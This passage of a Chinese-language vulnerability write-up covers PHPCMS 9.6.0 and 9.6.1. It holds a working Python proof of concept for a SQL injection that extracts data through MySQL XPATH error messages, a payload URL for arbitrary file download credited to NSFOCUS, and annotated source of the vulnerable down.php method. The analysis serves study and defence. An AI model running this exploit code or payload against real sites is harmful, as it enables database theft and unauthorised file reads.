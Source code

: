 		payload =urllib.parse.quote(payload)
		step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src={}".format(url,payload)
		data = {'userid_flash':userid_flash}
		req2 = requests.post(url=step2,data=data)
		for i in req2.cookies:
			if i.name[-9:] == '_att_json':
				a_k = i.value
		if a_k == '':
			print('sys_paylaod Bad')

		step3 = "{}/index.php?m=content&c=down&a_k={}".format(url,a_k)
		req3 = requests.get(url=step3)
		if 'MySQL Error' in req3.text:
			result = re.findall(r"MySQL Error : </b>XPATH syntax error: '(.*?)' <br /> <b>MySQL Errno",req3.text)
			print(result)

	if __name__ == '__main__':
		poc('http://localhost/phpcms9.6.0/')

这个出的密码加盐的，要解密，据说可以直接获取session但是我简单试 一下没成。


### phpcms9.6.1

这个版本公布的只有一个漏洞，任意文件读取。

#### 9.6.1 任意文件下载

我们先看看绿盟给的payload

	http://10.65.20.198/phpcms_v9.6.1_UTF8/index.php?m=content&c=down&a=download&a_k=050a8GfSF2bwK4H-oJhtDI2f9ixgu_iRvkGN1VX3I3X0wD-s-LPJnRGnM_xikA_rYLQInxgtkGtwL-JRW1HGHFO87kxWoVihALeRKJZEfTCcEYYrAOl_uqqzs7imN1QtTktE8jpF3zxIKeUOc0dFw7xr2JHyrWy8-lrUAQ

调用了down 模块 、 download方法，后面a_k是加密函数之前分析过。

先分析/phpcms/modules/content/down.php download方法(87-130)。

	public function download() {
		$a_k = trim($_GET['a_k']);//传入a_k
		$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
		$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);//解密
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f,$t,$ip);
		$a_k = safe_replace($a_k);//对a_k进行函数过滤
		parse_str($a_k); //解析变量		
		if(isset($i)) $downid = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		if(!$i || $m<0) showmessage(L('illegal_parameters'));
		if(!isset($t)) showmessage(L('illegal_parameters'));
		if(!isset($ip)) showmessage(L('illegal_parameters'));
		$starttime = intval($t);
		if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));//对$f参数进行正则用其中之一就返回错误
		$fileurl = trim($f);//赋值
		if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));//进行过滤有其中之一就返回参数错误	
		$endtime = SYS_TIME - $starttime;
		if($endtime > 3600) showmessage(L('url_invalid'));
		if($m) $fileurl = trim($s).trim($fileurl);//赋值
		if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));//再次进行后缀名过滤
		//远程文件